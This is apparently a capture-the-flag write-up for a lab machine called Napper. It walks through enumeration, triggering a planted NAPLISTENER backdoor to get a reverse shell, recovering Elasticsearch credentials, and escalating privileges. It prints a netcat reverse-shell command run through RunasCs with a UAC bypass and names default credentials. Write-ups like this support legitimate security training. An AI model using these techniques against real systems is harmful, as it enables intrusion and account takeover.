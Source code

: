 # PORT SCAN
* **80** &#8594; HTTP (IIS)
* **443** &#8594; HTTPS
* **7680** &#8594; PANDO-PUB

<br><br><br>

# ENUMERATION & USER FLAG
The port 7680 is pretty uncommon and can be used (as standard) for **<u>Pando Media Public Distribution</u>** or **<u>WUDO</u>** (Windows Update Delivery Optimization). I think we will have more info about it just after we performed foothold.

Let's move on the HTTP and HTTPS, according to the nmap scan we have a subdomain `app.napper.htb`

![a3e147a566301000c9cc910d12398928.png](img/a3e147a566301000c9cc910d12398928.png)

The certificate show us the issuer which is another subdomain o the box called `ca.napper.htb`

![cb7c69b3bde0772ef56a1ad7364347bb.png](img/cb7c69b3bde0772ef56a1ad7364347bb.png)

Now the website is similar to a security blog (like github.io) build it with <u>Hugo</u>

![698078d9fc83b2b9dd6a6f7a0ca54c64.png](img/698078d9fc83b2b9dd6a6f7a0ca54c64.png)

All right time to explore, a good part of the blog is based on IIS management (SSL included) and the website itself is used as example

![455416b0ce6337cce50dce628c7e7b9e.png](img/455416b0ce6337cce50dce628c7e7b9e.png)

Cool the blog is splitted in half, basic authentication on IIS systems and high level understanding of Reverse Engineering.

While I was reading I run some instance of dirb and ffuf and we have a new subdomain `internal.napper.htb`

![21e2a49e16e0306fc74b6def5add2ced.png](img/21e2a49e16e0306fc74b6def5add2ced.png)

Here we have the basic authentication in action

![4f01a560018b9c74c6463e5570f88431.png](img/4f01a560018b9c74c6463e5570f88431.png)

Looking at the blog post there is one where used the Powershell to implement basic authentication

![8e9e74570c41a20b4e32eb462e4427f6.png](img/8e9e74570c41a20b4e32eb462e4427f6.png)

It works, we have access here and is the same blog but with a single articl called `**INTERNAL** Malware research notes`

![58e2e4511f05d7ae69cc4551de48f166.png](img/58e2e4511f05d7ae69cc4551de48f166.png)

Time to read, again! The article talk about the [Naplistener](https://www.darkreading.com/threat-intelligence/custom-naplistener-malware-network-based-detection-sleep) malware.

We have this in a code block

> This means that any web request to /ews/MsExgHealthCheckd/ that contains a base64-encoded .NET assembly in the sdafwe3rwe23 parameter will be loaded and executed in memory. It's worth noting that the binary runs in a separate process and it is not associated with the running IIS server directly.

Well that's what I do (as parameter I used `whoami` in base64)

![7862f5dfa6313f0ba7b66bf582e556ca.png](img/7862f5dfa6313f0ba7b66bf582e556ca.png)

We also have a LOG with all the discovery made by the team

![c8f47c925bbf7dcd1f6a3022dd7249d8.png](img/c8f47c925bbf7dcd1f6a3022dd7249d8.png)

Cool so what we know so far is that we need a `.NET assembly` and use it to get a shell, looking at some article online I found the listener's code and what is intersting is the bottom part where manage the parameter 

![f871b31c8d551fda0589ce61038c5001.png](img/f871b31c8d551fda0589ce61038c5001.png)

<br><br>

Now with some trial and error I need to accomplish the listener and trigger a reverse shell 

What I have tried was to usea [C# Rev Shell](https://gist.github.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc) and use `mcs` Command Line Utility in order to create a dll, encoded in base64 and use it as parameter on the POST request but nothing return back to us (same thing with the EXE extension). Something is missing I need more reasearch but I don't think I will find an *"how to trigger NAPLISTENER malware"* lol

I tried a slighty different approach I used this C# code which download a ps1 script containing the powershell reverse shell (base64 encoded edition) and execute it

![87fe30c994e59b551a1126bbdc1ffdca.png](img/87fe30c994e59b551a1126bbdc1ffdca.png)

The key point was the `Run()` class because of the (according to the image above) `assembly.CreateInstance(assembly.GetName().Name + ".Run")`. Cool, than everything goes how is supposed to downloading the powershell script and execute.

Finally my netcat get our reward

![31620a24a45a2130419da001ef95cec7.png](img/31620a24a45a2130419da001ef95cec7.png)

<br><br><br>

# PRIVILEGE ESCALATION
First thing that I have checked are the process that are running in the background and we have the [Elastic Search Service](https://www.elastic.co/elasticsearch/service)

![60344cb5dddba401b3f52c5a2e3d1b94.png](img/60344cb5dddba401b3f52c5a2e3d1b94.png)

Can make sense this service is the one to be abused since Elastic is the company that have discovered and analyzed the NAPLISTENER malware, the version is `8.8.0`

![ac34d78be95006a63f8d2c4441dc1343.png](img/ac34d78be95006a63f8d2c4441dc1343.png)

It doesn't appear to have some known vulnerability, inside the configuration directory of the application we have a yaml file with the port is used for `Elastic Software`

![9a1b7b7be49a400c9ac355152afe9a89.png](img/9a1b7b7be49a400c9ac355152afe9a89.png)

Time to use chisel in order to retrieve the content of the port 9200 and we need to deal with another **<u>Basic Authentication</u>** form, the default credentials for elastic seems to be <u>`elastic:changeme`</u>

I tried to run some hydra bruteforce while I was out for some NPC like things but no response at all, time to use winPEAS and this is interesting

![0ecc9ee29bce66a7e6a4bba5199a5ef5.png](img/0ecc9ee29bce66a7e6a4bba5199a5ef5.png)

Let's see what we have here and we have a `.env` file with the username and password of elastic

![06edeab9a24e46c0349c8e848609fc30.png](img/06edeab9a24e46c0349c8e848609fc30.png)

![3ede635afb3def38674417a54006b5db.png](img/3ede635afb3def38674417a54006b5db.png)

Now we are free to play with elastic :)
Thanks to god [hacktricks have a page just for that](https://book.hacktricks.xyz/network-services-pentesting/9200-pentesting-elasticsearch)

> **<u>Elasticsearch</u>** is a versatile tool for searching, analyzing, and visualizing large volumes of data, particularly when that data is text-heavy or has a significant unstructured component. Its flexibility, scalability, and speed make it suitable for a broad range of applications across various industries

![f635479b88a2e5f02e99998398a3d360.png](img/f635479b88a2e5f02e99998398a3d360.png)

Now will be a good idea to tak the `a.exe` and try to do some RE, this is just intuition apparently everything inside the folder is used for elastisearch so maybe this executable can help us to retrieve something usefull. The executable appear to be written in GO so I installed [this extension](https://github.com/mooncat-greenpy/Ghidra_GolangAnalyzerExtension) for a better RE.

Inside the `main.main` we have the `genKey` function but doesn't seems to be usefull but using `strings` and some patience I found something like this 

![ea3aa65d016a1a89f9b5826a1ac88222.png](img/ea3aa65d016a1a89f9b5826a1ac88222.png)

So maybe is using an AES CFB encryption

I saw before that the `/_search` endpoint can gave us a blob with the seed of what it seems to be the `backup` user password

![91acfdd66aa09fb52a65bc9ecb6394fa.png](img/91acfdd66aa09fb52a65bc9ecb6394fa.png)

It seems it change after a few minutes, using Bard AI I successfully retrieved a GO script that can help me to retrieve the plaintext password given the blob and the seed (according to what we discovered before)

![0e3c77ee59929d1f18694dda27856e1d.png](img/0e3c77ee59929d1f18694dda27856e1d.png)

![a783a37466ccb73f68a8b5876bd85437.png](img/a783a37466ccb73f68a8b5876bd85437.png)

That's cool, now I need to figure out how to change user since there is no WinRM port. [RunasCs.exe](https://github.com/antonioCoco/RunasCs) is what we need and some timing for the password retrieval

![f2ec004c44b67a96eb3e94112934d28a.png](img/f2ec004c44b67a96eb3e94112934d28a.png)

Beautiful now let's see if we can get a shell somehow! Just upload netcat on the windows target machine and I used this line of code

`.\ras.exe backup [PASS] "C:\Users\ruben\Desktop\nc.exe 10.10.14.11 5555 -e cmd.exe" -t 8 --bypass-uac`

![c9fac729f4903d80bcd15c61b9d5ccde.png](img/c9fac729f4903d80bcd15c61b9d5ccde.png)

Cool thing now let's enumerate back and simply we are in the Administrator groups! Cool!

![00257b4355ea13e63f174a75fd8c9e8f.png](img/00257b4355ea13e63f174a75fd8c9e8f.png)

<br><br><br><br><br>
user
DumpPassword$Here
